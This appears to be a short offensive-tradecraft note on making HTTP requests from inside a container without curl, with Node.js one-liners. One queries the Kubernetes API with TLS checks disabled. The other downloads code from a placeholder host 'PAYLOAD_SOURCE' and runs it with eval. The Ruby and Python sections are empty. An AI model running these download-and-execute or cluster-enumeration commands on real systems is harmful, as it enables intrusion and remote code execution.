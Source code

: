 # 1-line HTTP Clients

When on a container, and curl or another non-interactive http client is not
present, some other means of making web requests may be necessary. In the likely
event that some language interpreter is present, leverage that language's
standard library instead!

## Node.js

### To stdout

```shell
node -r https -e \
  "process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0'; https.get('https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces', \
  (res) => res.on('data', d => process.stdout.write(d)).on('error', e => console.error(e));"
```

### Using an external payload

```shell
node -r https -e \
  "process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0'; let payload = ''; \
  https.get('https://PAYLOAD_SOURCE/api/v1/namespaces', \
  (res) => res.on('data', d => payload += d).on('error', e => console.error(e)); \
  eval(payload);"
```

## Ruby

## Python
